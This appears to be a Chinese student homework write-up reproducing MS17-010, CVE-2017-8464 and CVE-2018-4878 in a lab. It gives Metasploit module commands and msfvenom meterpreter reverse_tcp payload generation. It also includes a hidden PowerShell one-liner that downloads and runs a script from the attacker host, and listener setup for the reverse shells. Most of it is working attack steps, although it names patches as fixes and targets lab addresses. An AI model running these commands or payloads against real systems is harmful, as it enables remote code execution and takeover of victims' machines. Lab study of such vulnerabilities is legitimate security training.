

# 1104作业
## 作业1
### MS17-010 漏洞复现
- 靶机环境
  - 关闭防火墙
  - 目标必须使用SMBv1协议
  - 目标必须缺少MS17-010补丁
  - 使用`gpedit.msc`进入主策略 -> windows设置 -> 安全设置 -> 本地策略 -> 安全选项 -> 禁用（网络访问：限制对命名管道和共享的匿名访问）默认开启
  - 更改后重启

- 使用kali，执行msfconsole并搜索漏洞


#### 漏洞利用模块[0]
- 进入利用模块
```
use 0
```
- 查看并配置必选项
```
options
set rhosts 192.168.0.106
```
- 执行`exploit`


#### 漏洞利用模块[1]
- 进入利用模块
```
use 1
```
- 查看并配置必须项
```
options
set rhosts 192.168.0.106
```
- 执行`exploit`


#### 漏洞利用模块[2]
- 进入利用模块
```
use 2
```
- 查看并配置必须项
```
options
set rhosts 192.168.0.106
set command ipconfig
```
- 执行`exploit`


#### 漏洞利用模块[3]
- 进入利用模块
```
use 3
```
- 查看并配置必须项
```
options
set rhosts 192.168.0.106
```
- 执行`exploit`


#### 总结：
- 攻击效果
  - 模块[0] [1] 可以拿到 meterpreter
  - 模块[2] 可以执行一条指定的命令
  - 模块[3] 可以收集到指纹信息

- 利用条件
  - 模块[0] [3]，仅需满足前三个条件，可以不禁用（网络访问：限制对命名管道和共享的匿名访）
  - 模块[1] [2], 除了前三个条件外，必须禁用（网络访问：限制对命名管道和共享的匿名访）
  
#### 漏洞修复
- 安装官方补丁：Windows 7 64位：kb4012212
- 实测：kb4474419也可以实现该漏洞的修复

- 之后安装重启即可

## 作业2
### 1.CVE-2017-8464漏洞复现
- 在kali使用msfvenom生成一个反弹shell
```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.0.99 lport=4444 -f psh-reflection > ~/test.ps1
```


- 将生成的test.ps1文件复制到/var/www/html目录下


- 在kali中启用apache服务
```
service apache2 start
```


- 并查看该目录下的木马文件



- 在靶机上创建一个快捷方式，输入输入下列信息
```
powershell -windowstyle hidden -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.99/test.ps1');testx.ps1"
```


- 在kali开启一个监听
```
msfconsole

use exploit/multi/handler  //监听模块

set payload windows/x64/meterpreter/reverse_tcp
(该模块payload与生成木马文件的payload一致)
set LHOST 192.168.0.99
show options
```

- 开启监听（exploit）

- 点击靶机上的powershell

- 成功rce
  


### 2.CVE-2018-4878 漏洞复现
- 攻击机：kali Linux

- 靶机：Windows 7 sp3

- 在kali中使用msfvenom生成漏洞利用代码
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.99 lport=4445  -f  python>flash_shellcode.txt
```


- 将脚本文件移至kali，修改漏洞脚本文件CVE-2018-4878.py
- 将生成的shellcode代码替换到脚本文件中
  


- 更改python脚本中生成文件的路径


- 使用python2解释器，执行脚本文件
```
python2 CVE-2018-4878.py
```
- 执行完python脚本后，在当前目录下生成了2个脚本文件
  


- 开启Apache服务，并将生成的两个文件拷贝到apache服务目录下
```
service apache2 start
cp /root/* /var/www/html
```

- 在kali开启监听
```
msfconsole
use exploit/multi/handle
set payload windows/meterpreter/reverse_tcp

set lhost 192.168.0.99
set lport 4445
```


- 在靶机安装flash


- 访问在kali中生成好的index2.html页面
  


- 成功获取meterpreter
  
